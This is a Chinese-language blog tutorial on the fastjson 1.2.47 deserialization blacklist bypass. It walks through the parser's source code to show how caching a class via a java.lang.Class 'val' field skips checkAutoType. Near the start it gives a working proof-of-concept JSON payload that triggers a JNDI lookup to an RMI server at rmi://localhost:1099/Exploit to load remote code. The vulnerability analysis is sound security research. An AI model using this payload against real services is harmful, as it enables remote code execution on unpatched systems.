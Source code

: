 ```yaml
---
title: "Java 反序列化漏洞原理（五）fastjson 1.2.47 绕过原理"
categories: [ "Java" ]
tags: ["Java","反序列化", "fastjson"]
draft: false
slug: "java-serialization-vulnerability-5"
date: "2021-10-31T21:31:00+08:00"
---
```


## 声明
本文章中所有内容仅供学习交流，严禁用于非法用途，否则由此产生的一切后果均与作者无关。

## Fastjson <= 1.2.47 POC

随着 fastjson 的更新，以往的安全漏洞都被封堵掉了，但道高一尺，魔高一丈，安全人员发现了一个通杀的漏洞，以往的封堵手段都可以绕过，算是一个里程碑的发现。

我们首先将 fastjson 升级到 1.2.47 版本，然后使用我们之前的POC进行测试。

```java
import com.alibaba.fastjson.JSON;

public class Eval3 {

    public static void main(String[] args) throws Exception {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\",\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

不出意料的话会出现这样的错误提示信息：

```bash
autoType is not support. com.sun.rowset.JdbcRowSetImpl
```

这是因为 fastjson 使用了黑名单机制，禁止将 `com.sun.rowset.JdbcRowSetImpl` 反序列化。

下面我们使用新的 POC 进行测试，又可以利用成功了。

```java
import com.alibaba.fastjson.JSON;

public class Eval5 {

    public static void main(String[] args) throws Exception {
        String payload = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
    }
}
```

payload 格式化之后如下：

```java
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://localhost:1099/Exploit",
		"autoCommit": true
	}
}
```

## Fastjson <= 1.2.47 绕过原理

在学习绕过原理之前，了解 fastjson 的基本解析流程还是有必要的，我画了一张类图仅供参考，图中只画了主要流程，还有很多类没有画。

![image](https://oss.typesafe.cn/fastjson.png?t=2)

上面我们已经发现用上一节构造的 payload 已经无法通过，就是因为在调用 `ParserConfig.checkAutoType` 返回的。

安全人员通过审计源码发现，当JSON对象的类型是`java.lang.Class`，并且存在 **val** 字段时，fastjson 会将其解析转换得到字符串（完整包名），并将 **val** 对应的类加载到缓存中，而 `checkAutoType` 方法中，如果从缓存中获取到了 Class 就会直接返回，不会再进行下面的黑名单校验。

以我们构造的 payload 为例，首先会解析

```json
{
	"@type": "java.lang.Class",
	"val": "com.sun.rowset.JdbcRowSetImpl"
}
```

因为 `@type` 是 `java.lang.Class` 所以通过了 `checkAutoType` 校验，进入 `com.alibaba.fastjson.serializer.MiscCodec` 的 `deserialze` 方法，下面是 `deserialze` 方法的部分代码。

```java
public <T> T deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) {
    JSONLexer lexer = parser.lexer;

    // 代码省略
    Object objVal;

    if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
        parser.resolveStatus = DefaultJSONParser.NONE;
        parser.accept(JSONToken.COMMA);

        if (lexer.token() == JSONToken.LITERAL_STRING) {
            if (!"val".equals(lexer.stringVal())) {
                throw new JSONException("syntax error");
            }
            lexer.nextToken();
        } else {
            throw new JSONException("syntax error");
        }

        parser.accept(JSONToken.COLON);
        // 解析 val 字段
        objVal = parser.parse();

        parser.accept(JSONToken.RBRACE);
    } else {
        objVal = parser.parse();
    }

    String strVal;

    if (objVal == null) {
        strVal = null;
    } else if (objVal instanceof String) {
        // 转换为 String 类型
        strVal = (String) objVal;
    } else {
        // 代码忽略
    }

    // 代码省略
    
    // 这个 clazz 是我们在 @type 中指定的类型，因此是满足这个条件的
    if (clazz == Class.class) {
        return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
    }

    // 代码省略
}
```

而 `com.alibaba.fastjson.util.TypeUtils.java` 最终调用的方法如下：

```java
public static Class<?> loadClass(String className, ClassLoader classLoader) {
    return loadClass(className, classLoader, true);
}
```

可以看到 `cache` 参数是 `true`。

```
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
        // 代码忽略
        try{
            if(classLoader != null){
                clazz = classLoader.loadClass(className);
                if (cache) {
                    // 这里缓存了 com.sun.rowset.JdbcRowSetImpl 到 mappings 中
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            e.printStackTrace();
            // skip
        }
        try{
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if(contextClassLoader != null && contextClassLoader != classLoader){
                clazz = contextClassLoader.loadClass(className);
                if (cache) {
                    // 这里缓存了 com.sun.rowset.JdbcRowSetImpl 到 mappings 中
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            // skip
        }
        try{
            clazz = Class.forName(className);
            mappings.put(className, clazz);
            return clazz;
        } catch(Throwable e){
            // skip
        }
        return clazz;
    }
```

解析完第一个JSON对象后，开始解析第二个JSON对象。

```json
{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "rmi://localhost:1099/Exploit",
	"autoCommit": true
}
```

我们直接看  `com.alibaba.fastjson.parser.ParseConfig.checkAutoType` 的代码:

```
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    // 代码忽略 ...

    if (clazz == null) {
        // 这里从 mapping 中通过类名称获取类，因为在处理第一个JSON对象的时候已经把 com.sun.rowset.JdbcRowSetImpl put 进去了，因此这里一定是可以获取到 Class 的
        clazz = TypeUtils.getClassFromMapping(typeName);
    }
    
    // 不会进入这个判断
    if (clazz == null) {
        clazz = deserializers.findClass(typeName);
    }

    // 进入这个判断
    if (clazz != null) {
        // 根据参数调用得出 expectClass 是 null，也不会进入这个判断
        if (expectClass != null
                && clazz != java.util.HashMap.class
                && !expectClass.isAssignableFrom(clazz)) {
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        }
        // 直接返回 Class
        return clazz;
    }

    // 代码省略，下面的黑名单判断已经不重要了
    return clazz;
}
```

可以看到在缓存中获取到 Class 对象后直接 return 出去了，下面的黑名单校验并没有进行，之后的逻辑就是构造实例，发出 JNDI 请求，在此不再赘述了。